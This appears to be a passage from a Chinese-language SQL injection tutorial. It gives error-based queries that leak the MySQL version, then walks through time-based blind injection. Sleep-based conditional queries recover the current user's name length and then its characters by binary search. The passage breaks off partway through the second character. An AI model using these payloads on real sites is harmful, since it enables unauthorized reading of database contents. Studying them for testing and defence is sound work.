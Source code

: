 SQL附录：

```
select convert((select @@version),int);

select updatexml(1,concat('~',(select @@version)),1);

select extractvalue(1,concat('~',(select @@version),1));
```



## 5 延时注入判断

有时候网站容错性比较强（各种默认值）在注入的时候**不管加什么参数页面都没什么变化**，这时候可以**使用延时注入**，用**是否卡顿来判断是否有注入点**

> eg：`select * from users where id=1 or sleep(3);` or `select * from users where id=1 and sleep(3);`

举个延迟注入获取数据的例子：

> eg：获取当前用户名

大体思路：

1. 查询当前用户猜测出用户名长度
2. 截取第一个字符并转换为ASCII码
3. 讲第一个字符的ASCII码和ASCII码表对比，匹配则延迟3s
4. 继续截取字符并对比，直到全部解猜出来

**获取用户名长度**的SQL附录：

```
-- 获取当前用户的长度，不延迟说明不对
select if(length(user())=1,sleep(3),1);
select if(length(user())=2,sleep(3),1);
select if(length(user())=3,sleep(3),1);
select if(length(user())=4,sleep(3),1);
......
select if(length(user())=15,sleep(3),1);
select if(length(user())=16,sleep(3),1);
select if(length(user())=17,sleep(3),1);
select if(length(user())=18,sleep(3),1); -- 延迟了3s

-- PS：可以自己验证一下是不是18位
select user(); -- dnt@192.168.36.144
select char_length(user()); -- 18
```

**获取用户名每一个字符**的SQL附录：(数据库通用的`substring`可以换成mysql独有的`mid`)

基本上都是在这里匹配：`a~z`、`A~Z`、`0~9`、`_、@、%、#...`，只看`@`前面的字符，后面的直接忽略

> ASCCI：`%：37`、`0：48~9：57`、`@：64`、`A：65~Z：90`、`_：95`、`a：97~z：122`（可以使用二分法快速定位）

```
-- 获取第一个字符是什么
select if(substring(user(),1,1)>'a',sleep(3),1); -- 延迟3s，说明第1个字符比a大
select if(substring(user(),1,1)<'z',sleep(3),1); -- 延迟3s，说明在a~z之间
select if(substring(user(),1,1)>'p',sleep(3),1); -- 不延迟，说明在a~p之间
select if(substring(user(),1,1)<'h',sleep(3),1); -- 延迟3s，说明在a~h之间
select if(substring(user(),1,1)>'e',sleep(3),1); -- 不延迟，说明在a~e之间
select if(substring(user(),1,1)>'c',sleep(3),1); -- 延迟3s，说明在c~e之间 ==> 那就是d了
select if(substring(user(),1,1)='d',sleep(3),1); -- 延迟3s，说明第1个字符是d

-- 获取第二个字符是什么
select if(substring(user(),2,1)>'a',sleep(3),1); -- 延迟3s，说明第2个字符比a大
select if(substring(user(),2,1)<'z',sleep(3),1); -- 延迟3s，说明在a~z之间
select if(substring(user(),2,1)>'p',sleep(3),1); -- 不延迟，说明在a~p之间
select if(substring(user(),2,1)<'h',sleep(3),1); -- 不延迟，说明在h~p之间
select if(substring(user(),2,1)>'m',sleep(3),1); -- 延迟3s，说明在m~p之间
```
